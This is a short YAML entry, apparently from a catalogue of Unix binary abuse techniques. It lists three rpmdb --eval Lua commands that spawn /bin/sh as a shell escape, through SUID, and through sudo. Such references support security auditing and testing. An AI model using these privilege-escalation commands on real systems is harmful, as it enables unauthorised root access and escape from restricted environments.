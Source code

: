 ```yaml
---
functions:
  shell:
    - code: rpmdb --eval '%{lua:posix.exec("/bin/sh")}'
  limited-suid:
    - code: ./rpmdb --eval '%{lua:os.execute("/bin/sh")}'
  sudo:
    - code: sudo rpmdb --eval '%{lua:posix.exec("/bin/sh")}'
---
```

